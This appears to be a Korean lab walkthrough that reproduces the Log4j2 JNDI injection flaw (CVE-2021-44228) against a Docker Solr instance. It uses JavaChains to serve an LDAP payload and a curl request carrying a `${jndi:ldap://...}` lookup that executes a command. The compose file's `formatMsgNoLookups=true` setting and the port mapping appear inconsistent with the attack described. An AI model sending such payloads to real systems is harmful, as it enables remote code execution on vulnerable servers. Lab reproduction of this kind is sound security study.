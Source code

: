 # Apache Log4j2 JNDI 인젝션 취약점 (CVE-2021-44228)

Apache Log4j 2는 Log4j 1.x의 상위 버전으로, Logback에서 사용 가능한 많은 개선 사항을 제공하면서 Logback의 구조적 문제를 해결했습니다.

2021년 12월, Apache Log4j2에서 0-day 취약점이 발견되었습니다. Log4j의 JNDI 지원이 이름 해석을 제한하지 않았기 때문에 `rmi:` 및 `ldap:` 같은 프로토콜이 안전하지 않거나 원격 코드 실행을 허용할 수 있습니다.





## 취약점 환경 구성

### 1. JavaChains 설치
PoC를 수행하기 위해 JavaChains를 설치합니다. JavaChains는 JNDI 페이로드를 생성하고 LDAP 서버를 실행하는데 사용됩니다. 수동으로 설치하는 대신, docker-compose.yml 파일에 서비스를 추가하여 자동화된 설치를 구성했습니다.
기존 docker-compose.yml에는 #JavaChains 컨테이너 설치가 없어서 추가하였습니다.

```bash
# JavaChains 디렉토리 생성
mkdir -p CVE-2021-44228/java-chains

# Dockerfile 생성
cat > CVE-2021-44228/java-chains/Dockerfile << 'EOF'
FROM javachains/javachains:latest

# 필요한 포트 노출
EXPOSE 8011
EXPOSE 50388
EXPOSE 50389

# 컨테이너 시작 시 Java Chains 실행
CMD ["java", "-jar", "/chains/java-chains.jar"]
EOF
```


### 2. docker-compose.yml 수정
기존 docker-compose.yml 파일에 JavaChains 서비스를 추가합니다:

```yaml
version: '3'
services:
  solr:
    image: vulhub/solr:8.11.1
    ports:
      - "8983:8983"
    environment:
      - SOLR_OPTS=-Dlog4j2.formatMsgNoLookups=true
    volumes:
      - ./solr:/var/solr
    command:
      - solr-precreate
      - test
    restart: always

  java-chains:
    build: ./java-chains
    ports:
      - "8011:8011"
    restart: always
```


### 3. 환경 실행
다음 명령어로 환경을 실행합니다:

```bash
docker-compose up -d
```
JavaChains 와 vulhub/solr:8.11.1 도커 ps 확인
docker ps
![image](https://github.com/user-attachments/assets/a54ee6a0-a5da-4607-a6cf-1587055f4523)

JavaChains를 접속해보면 패스워드를 모릅니다.
![image](https://github.com/user-attachments/assets/ee97587a-7812-4fe8-ab0a-956ddfc4426d)



패스워드를 찾기 위해 
### 4. JavaChains 비밀번호 확인
JavaChains 웹 인터페이스에 접속하기 위한 비밀번호는 다음 명령어로 확인할 수 있습니다:

```bash
docker logs java-chains | grep password
```
![자바체인 로그](https://github.com/user-attachments/assets/65a2a400-e53a-430e-9e53-6a213d18841d)


## 취약점 공격


1. JavaChains 웹 인터페이스 접속:
   - 브라우저에서 http://localhost:8011 접속
   - 위에서 확인한 비밀번호 입력
   - 명령어 입력 (예: `touch /tmp/success`)
   - ![image](https://github.com/user-attachments/assets/24105608-4158-453b-bd9f-d1d2bd4b20e0)

   - "Generate" 버튼 클릭하여 LDAP URL 생성
   - ![java-chains 접속6](https://github.com/user-attachments/assets/d2c5bb0b-e348-4059-8a29-b8bd74f30468)



2. 생성된 LDAP URL을 사용하여 Solr에 페이로드 전송:
```bash
curl "http://localhost:8983/solr/admin/cores?action=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A50389%2F[생성된_ID]%7D"
```
![image](https://github.com/user-attachments/assets/7623333a-9a13-4fc6-8932-8fbc68eb4971)


3. 명령어 실행 확인:
```bash
docker exec -it cve-2021-44228-solr-1 bash
ls -l /tmp/success
```
![image](https://github.com/user-attachments/assets/eacafb91-137f-4404-8ee3-c220cf4ca368)



## 주의사항

1. Java Chains와 Solr 컨테이너가 같은 Docker 네트워크에 있어야 합니다.
2. JDK 버전이 8u191 미만인 경우에만 `rmi://` 또는 `ldap://` 프로토콜을 사용할 수 있습니다.

## 참고 자료

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649 
